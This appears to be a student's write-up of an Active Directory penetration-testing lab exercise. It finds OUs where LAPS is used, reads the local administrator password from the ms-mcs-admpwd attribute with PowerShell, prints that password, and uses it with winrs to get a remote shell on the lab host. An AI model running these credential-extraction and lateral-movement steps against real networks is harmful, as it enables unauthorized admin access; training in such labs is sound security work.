




# Hands-on 8: LAPS

- [Hands-on 8: LAPS](#hands-on-8-laps)
  - [Task](#task)
  - [Identify OUs where LAPS is in use and user(s) who have permission to read passwords](#identify-ous-where-laps-is-in-use-and-users-who-have-permission-to-read-passwords)
  - [Abuse the permissions to get the clear text password(s)](#abuse-the-permissions-to-get-the-clear-text-passwords)

---

## Task

- Identify OUs where LAPS is in use and user(s) who have permission to read passwords.
- Abuse the permissions to get the clear text password(s).

<br/>

---

## Identify OUs where LAPS is in use and user(s) who have permission to read passwords

First import AD Module:

```
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll; Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

<br/>

Import `Get-LapsPermission.ps1` as well:

```
. C:\AD\Tools\Get-LapsPermission.ps1
```

  

- `US\studentusers` has the LDAPS Read permission on the OU `MailMgmt`. 

<br/>

---

## Abuse the permissions to get the clear text password(s)

Check the computers in the `Mgmt` OU:

```
Get-ADComputer -Filter * | ? { $_.DistinguishedName -match "MailMgmt" }
```

  

- Computer: `US-MailMgmt`

Since the current user `studentuser64` is in the group `US\studentusers`, we can use AD Module to read the LAPS:

```
Get-ADComputer -Identity US-MailMgmt -Properties ms-mcs-admpwd | Select -ExpandProperty ms-mcs-admpwd
```

  

- The cleartext password in LAPS is `03/%Bg}o&4fGEz`

<br/>

Try to access using the local admin password found:

```
winrs -r:us-mailmgmt.us.techcorp.local -u:.\administrator -p:"03/%Bg}o&4fGEz" cmd.exe
```

  


<br/>

---